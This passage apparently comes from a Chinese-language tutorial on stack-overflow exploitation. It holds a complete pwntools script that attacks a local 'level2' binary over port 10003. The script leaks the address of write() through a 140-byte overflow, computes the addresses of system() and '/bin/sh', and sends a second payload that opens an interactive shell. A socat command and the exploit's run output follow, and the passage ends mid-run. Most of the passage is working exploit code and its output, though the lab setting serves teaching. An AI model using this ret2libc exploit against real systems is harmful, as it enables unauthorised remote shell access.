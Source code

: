 #p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()
</code>
</pre>
<p nodeIndex="115">接着我们使用socat把level2绑定到10003端口:</p>
<pre nodeIndex="116">
<code nodeIndex="213">#!bash
socat TCP4-LISTEN:10003,fork EXEC:./level2
</code>
</pre>
<p nodeIndex="117">最后执行我们的exp：</p>
<pre class="prettyprint" nodeIndex="118">
<code nodeIndex="214">#!bash
$python exp3.py 
[+] Opening connection to 127.0.0.1 on port 10003: Done
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb76f64c0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7656460
binsh_addr= 0xb7778ff8
